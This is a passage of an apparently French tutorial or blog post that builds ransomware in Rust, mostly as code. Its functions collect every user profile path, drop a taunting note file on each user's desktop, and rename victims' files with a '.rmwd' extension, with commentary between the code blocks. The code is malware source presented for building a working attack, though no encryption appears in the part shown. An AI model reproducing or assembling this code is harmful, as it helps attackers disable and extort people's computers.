 ```Rust
        if !est_par_defaut{
            liste_utilisateur.push(chemin_utilisateur);
        }
    }

    return liste_utilisateur;
}
```

Grâce à la fonction `get_chemin_utilisateurs`, je peux écrire une note sur chaque bureau:

```Rust
//Cette fonction permet d'écrire une note sur le bureau de tous les utilisateurs
pub fn note_tous_les_utilisateurs(){
    let note: String = "Oh non.\nC'est malin.".to_string();

    let liste_chemin_utilisateurs: Vec<String> = get_chemin_utilisateurs();

    for chemin_utilisateur in liste_chemin_utilisateurs{
        ecrire_fichier([chemin_utilisateur,"\\Desktop\\note.txt".to_string()].concat(), note.clone()).unwrap();
    }
}
```

## Ajout d'une extension aux fichiers

J'ai aussi créer une fonction toute simple qui remplace l'extension des fichiers par l'extension ".rmwd".

```Rust
//Renomme le fichier avec l'extension rmwd
pub fn renommer_fichier(chemin_fichier: String) -> std::io::Result<()>{
    let extension: String = get_extension_fichier(chemin_fichier.clone());
    let fichier_sans_extension: &str = chemin_fichier.trim_end_matches(&extension);
    let fichier_remplacer: String = [fichier_sans_extension,"rmwd"].concat();
    rename(chemin_fichier.clone(), fichier_remplacer.clone())?;
    println!("Sans extension: {}", chemin_fichier);
    println!("Avec extension: {}", fichier_remplacer);
    Ok(())
}
```

Rien d'extraordinaire, la fonction `get_extension_fichier` ressemble à ceci:

```Rust
//Récupère l'extension du fichier
//Retourne l'extension sous la forme d'un String
//Exemple: "C:\note.txt" retournera "txt"
pub fn get_extension_fichier(chemin_fichier: String) -> String{
    let chemin: &Path = Path::new(&chemin_fichier);
    let extension = chemin.extension();
    let mut renvoie = String::from("");
    if extension.is_none(){
        println!("Impossible de récupérer l'extension du fichier");
    }
    else{
        // Regardez pas trop près, vous allez vous faire mal aux yeux
        renvoie = extension.unwrap().to_str().unwrap().to_string();
    }
    return renvoie.to_string();
}
```
